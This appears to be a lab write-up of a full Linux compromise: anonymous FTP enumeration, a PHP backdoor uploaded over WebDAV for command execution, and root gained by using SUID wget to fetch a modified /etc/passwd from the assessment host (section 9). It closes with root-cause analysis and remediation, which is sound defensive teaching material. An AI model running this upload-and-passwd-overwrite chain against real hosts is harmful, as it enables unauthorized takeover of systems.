# Unauthenticated PHP File Upload to Remote Code Execution and Root Privilege Escalation via SUID `wget`

**Category:** Web Application Security / Linux Privilege Escalation  
**Environment:** Authorized virtual machine  
**Target OS:** Linux (Ubuntu-based services identified during enumeration)  
**Assessment status:** Completed — remote command execution and root access demonstrated

> **Publication note:** The target and attacker IP addresses, along with the machine hostname, are blurred in the screenshots and replaced with placeholders in this document. Credential and flag contents are not reproduced in the narrative. The screenshots otherwise retain their original evidence.

---

## Summary

This assessment documented an end-to-end compromise of a lab host through a chain of exposed services and insecure file-handling permissions. Network enumeration identified HTTP services on ports 80 and 8080 and an FTP service on port 65000. Anonymous FTP access exposed a file named `s3cret`. The web application provided an upload location that accepted a PHP file, which was subsequently accessed over HTTP and used to execute operating-system commands.

The resulting shell ran as `www-data`. Enumeration identified `/usr/bin/wget` with the SUID bit set. The binary was abused to replace `/etc/passwd` with a modified copy containing a UID 0 account. Switching to that account provided root access.

## Skills Demonstrated

- Network and service enumeration with Nmap
- Anonymous FTP access and file enumeration
- Web application reconnaissance and directory discovery
- HTTP method enumeration
- File upload testing with Cadaver
- Verification of PHP-based remote command execution
- Reverse-shell handling in an isolated lab
- Linux SUID enumeration and privilege-escalation analysis
- Root-cause analysis and remediation planning

---

## 1. Reconnaissance and Service Enumeration

An Nmap service/version scan was performed against the lab target. The scan identified three exposed TCP services:

| Port | Service | Identified service details |
|---:|---|---|
| 80 | HTTP | Apache with PHP 5.5.9-1ubuntu4.29 |
| 8080 | HTTP | nginx 1.4.6 (Ubuntu) |
| 65000 | FTP | vsftpd 2.0.8 or later |

The operating system was identified as Linux.

**Command used:**

```bash
nmap -sV -p- <TARGET_IP>
```

**Evidence — Nmap service/version scan**



## 2. Anonymous FTP Enumeration

The FTP service on port 65000 accepted an anonymous login. After authentication, a directory listing revealed a file named `s3cret`, which was downloaded for inspection.

**Commands used:**

```text
ftp <TARGET_IP> 65000
Name: anonymous
ftp> ls
ftp> get s3cret
ftp> bye
```

**Evidence — Anonymous FTP session and file retrieval**



The downloaded file was displayed locally. It contained a credential-like value. The literal value is intentionally not reproduced in this write-up.

**Evidence — Downloaded secret file**



## 3. Web Application Enumeration

The HTTP service on port 80 was accessed in a browser. The landing page presented **Login** and **Register** options.

**Evidence — Web application landing page**



A test application account was registered through `/register.php`. The registration form requested a username/email value and a password with confirmation.

**Evidence — Registration page**



The application accepted the test account and displayed a successful-login message. No additional sensitive application functionality was identified during this check.

**Evidence — Successful login**



## 4. Web Directory and Service Enumeration

DIRB was used to enumerate directories and files exposed by the port 80 application. The results included paths such as:

- `/index.php`
- `/javascript/`
- `/login/`
- `/upload/`
- `/login/.git/HEAD`

The scan reported HTTP 200 responses for `/index.php` and `/login/.git/HEAD`, and HTTP 403 for `/server-status`.

**Command used:**

```bash
dirb http://<TARGET_IP>
```

**Evidence — DIRB results**



The second HTTP service was then inspected on port 8080. It returned a “File not found” response in the browser; Nmap had identified the service as nginx 1.4.6 on Ubuntu.

**Evidence — Port 8080 response**



An Nmap HTTP-methods script was run against port 80. It reported `GET`, `HEAD`, `POST`, and `OPTIONS` as supported methods. The method listing alone does not establish that a method is vulnerable.

**Command used:**

```bash
nmap --script http-methods.nse <TARGET_IP> -p80
```

**Evidence — Supported HTTP methods**



## 5. PHP File Upload and Remote Command Execution

The upload location was accessed using Cadaver. A PHP file named `simple-backdoor.php` was uploaded, and Cadaver reported that the transfer completed successfully.

**Command pattern used:**

```text
cadaver http://<TARGET_IP>/upload/
dav:/upload/> put simple-backdoor.php
```

**Evidence — PHP file upload**



The uploaded file was then opened over HTTP. Its response displayed a usage message referring to a `cmd` parameter, confirming that the uploaded PHP file was accessible and processed by the web server.

**Evidence — Uploaded PHP file accessible over HTTP**



A command was supplied through the `cmd` parameter. The response displayed network-interface information from the target, demonstrating operating-system command execution through the uploaded PHP file.

**Evidence — Remote command execution**



A reverse-shell command was subsequently submitted through the same command parameter, targeting a listener on the assessment machine.

**Evidence — Reverse-shell request**



A Netcat listener received an incoming connection. The `whoami` command returned `www-data`, confirming that the shell was running with the web-service account's privileges.

**Evidence — Reverse shell as www-data**



## 6. Shell Stabilization and User-Level Enumeration

The shell was upgraded to an interactive TTY using Python's `pty` module. The home directories were enumerated, and the user-level flag file was located and read. The flag value is not reproduced in this narrative.

**Command pattern used:**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Evidence — Interactive shell and user flag retrieval**



## 7. SUID Binary Enumeration

The filesystem was searched for SUID-enabled files. The results included standard system binaries and, notably, `/usr/bin/wget`.

**Command used:**

```bash
find / -perm -u=s -type f 2>/dev/null
```

A SUID permission on a general-purpose file-transfer utility is a serious configuration risk. Depending on its ownership and execution context, it can allow file operations with the executable owner's effective privileges.

**Evidence — SUID binary enumeration**



The `/etc/passwd` file was also readable from the `www-data` shell. This confirmed read access to the local account database.

**Command used:**

```bash
cat /etc/passwd
```

**Evidence — Reading /etc/passwd**



## 8. Preparing the Modified Account Database

On the assessment machine, an MD5-crypt password hash was generated for a test account. A local copy of the target's passwd file was prepared with an additional account entry configured with UID 0 and GID 0, a root home directory, and `/bin/bash` as its login shell.

**Evidence — Password hash generation**



**Evidence — Modified passwd file**



## 9. Exploiting SUID `wget` to Obtain Root Access

A local Python HTTP server was started from the directory containing the modified passwd file so that the target could retrieve it.

**Command used:**

```bash
python3 -m http.server 80
```

**Evidence — Local HTTP server**



From the remote `www-data` shell, the modified file was downloaded and saved as `/etc/passwd`. Because `/usr/bin/wget` had the SUID bit set, the file replacement was performed with elevated effective privileges.

**Command pattern used:**

```bash
cd /etc
wget -O passwd http://<ASSESSMENT_HOST_IP>/passwd
```

**Evidence — Replacing /etc/passwd through SUID wget**



The newly created account was then used with `su`. The resulting shell had UID 0 privileges. The `/root` directory was accessed and the root-level flag file was located and read.

**Evidence — Root shell and root flag retrieval**



<badge color="success">Root access demonstrated</badge>

---

## 10. Impact

The demonstrated attack chain progressed from network-accessible services to full root-level control of the lab host.

- **Confidentiality:** Local account information and user/root flag files were accessible.
- **Integrity:** The system account database, `/etc/passwd`, was replaced through the SUID-enabled utility.
- **Availability:** Root-level access would allow an attacker to disrupt services, modify system files, or otherwise affect system availability.

The combined weaknesses therefore resulted in a complete compromise of the assessed lab host. The demonstrated impact is specific to the supplied training environment and should be independently validated before applying the same severity to a production deployment.

## 11. Root Cause

The compromise resulted from multiple weaknesses:

1. **Anonymous FTP exposure:** The FTP service permitted anonymous access and exposed a credential-like file.
2. **Insufficient upload restrictions:** The web upload path accepted a PHP file that was subsequently processed by the web server.
3. **Executable upload exposure:** Uploaded PHP content was reachable through HTTP and enabled operating-system command execution.
4. **Unsafe SUID configuration:** `/usr/bin/wget` had the SUID bit set, creating a path to privileged file modification.
5. **Excessive write capability:** The SUID utility could be used to replace the system account database.

## 12. Remediation Recommendations

| Finding | Recommended remediation |
|---|---|
| Anonymous FTP access | Disable anonymous FTP unless explicitly required. Require authentication, restrict access to trusted networks, and remove sensitive files from public FTP directories. |
| Exposed credential-like file | Remove the file from the FTP share and rotate the value if it represents a real or reused credential. |
| Unrestricted upload path | Enforce server-side file validation, restrict upload permissions, and store uploaded content outside the web root. |
| PHP execution in upload directory | Disable script execution in upload locations and serve uploaded files as inert content. |
| Unnecessary SUID permission on `wget` | Remove the SUID bit from `wget`. Audit all SUID/SGID binaries and retain only those that are operationally required. |
| Writable system account files | Ensure `/etc/passwd`, `/etc/shadow`, and related account files have appropriate ownership and restrictive permissions. |
| Excessive web-service privileges | Run the web server under a dedicated low-privilege account and deny write access to system directories. |
| Outdated services | Patch Apache/PHP, nginx, and FTP services; disable unused services and close unnecessary ports. |
| Potential post-exploitation artifacts | Remove the uploaded test PHP file and inspect for unexpected accounts, processes, files, and persistence mechanisms. Review FTP, HTTP, authentication, and file-integrity logs. |

## 13. Lessons Learned

- Anonymous services should be checked for exposed files and unintended access.
- File-upload functionality must be tested for server-side validation and execution behavior.
- A successful upload is not, by itself, proof of code execution; the uploaded content must be verified separately.
- SUID enumeration is an important post-compromise check on Linux systems.
- General-purpose utilities such as `wget` should not be granted unnecessary SUID privileges.
- Privilege escalation prevention requires both least-privilege execution and regular permission audits.

## 14. Conclusion

The supplied evidence demonstrates an end-to-end compromise of the lab host. Anonymous FTP access exposed a credential-like file, while an unrestricted PHP upload path enabled remote command execution as `www-data`. Enumeration then identified a SUID-enabled `/usr/bin/wget` binary, which was used to replace `/etc/passwd` and obtain a UID 0 shell.

The primary remediation priorities are to disable unnecessary anonymous FTP access, prevent executable content from being uploaded or run, remove unnecessary SUID permissions, protect system account files, and reduce the privileges available to web-service processes.

---

*This assessment was performed against an authorized, isolated training-lab virtual machine. The evidence is provided for educational and defensive security purposes.*
